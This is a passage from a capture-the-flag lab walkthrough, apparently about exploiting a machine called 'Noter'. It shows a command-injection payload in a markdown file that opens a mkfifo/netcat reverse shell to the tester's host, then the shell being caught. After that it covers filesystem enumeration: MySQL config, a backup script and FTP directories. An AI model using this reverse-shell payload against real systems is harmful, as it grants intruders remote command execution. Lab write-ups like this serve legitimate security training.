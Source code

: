 ```

oxdf@hacky$ cat cmdinj.md 
'$(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.6 443 >/tmp/f)'

```

I’ll host the file and give the URL to the site, and it returns a shell:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.160 49996
/bin/sh: 0: can't access tty; job control turned off
$ 

```

## Shell as root

### Enumeration

#### Filesystem

There’s not much of interest in the user’s home dir. The web app seems to be running out of `app`, but I’ve already had access to that source code. The live source does show the new MySQL user:

```

# Config MySQL
app.config['MYSQL_HOST'] = 'localhost'
app.config['MYSQL_USER'] = 'DB_user'
app.config['MYSQL_PASSWORD'] = 'DB_password'
app.config['MYSQL_DB'] = 'app'
app.config['MYSQL_CURSORCLASS'] = 'DictCursor' 

```

`/opt` has a single file, `backup.sh`:

```

svc@noter:/opt$ ls
backup.sh

```

This seems to be what created the backups I found over FTP, but it clearly isn’t running often.

The FTP roots are in `/srv/ftp`, but there’s nothing there I didn’t already have access to.

```

svc@noter:/srv/ftp$ ls
blue  ftp_admin

```
